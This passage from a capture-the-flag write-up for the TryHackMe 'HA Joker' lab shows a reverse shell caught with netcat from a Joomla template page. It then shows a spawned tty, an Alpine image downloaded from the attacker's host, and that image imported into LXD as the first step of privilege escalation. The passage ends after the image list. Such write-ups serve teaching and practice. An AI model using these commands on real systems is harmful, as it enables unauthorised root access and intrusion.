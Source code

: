 [http://10.10.252.64:8080/templates/beez3/error.php](http://10.10.252.64:8080/templates/beez3/error.php)

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.252.64] 43184
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:46:07 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$
```

`www-data`

8.  This user belongs to a group that differs on your own group, What is this group?

`lxd`

10. Spawn a tty shell.

`SHELL=/bin/bash script -q /dev/null`

11. In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".

[https://linuxcontainers.org/lxd/introduction/](https://linuxcontainers.org/lxd/introduction/)

13. Research how to escalate privileges using LXD permissions and check to see if there are any images available on the box.

```
www-data@ubuntu:/$ cd ~
cd ~
www-data@ubuntu:/var/www$ wget http://10.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
<.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
--2020-10-08 11:58:36--  http://10.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3183740 (3.0M) [application/gzip]
Saving to: 'alpine-v3.12-x86_64-20201008_2055.tar.gz'
2020-10-08 11:58:38 (1.56 MB/s) - 'alpine-v3.12-x86_64-20201008_2055.tar.gz' saved [3183740/3183740]
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine                   
<v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
www-data@ubuntu:/var/www$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | f2a9284c04f4 | no     | alpine v3.12 (20201008_20:55) | x86_64 | 3.04MB | Oct 8, 2020 at 6:59pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
www-data@ubuntu:/var/www$
```
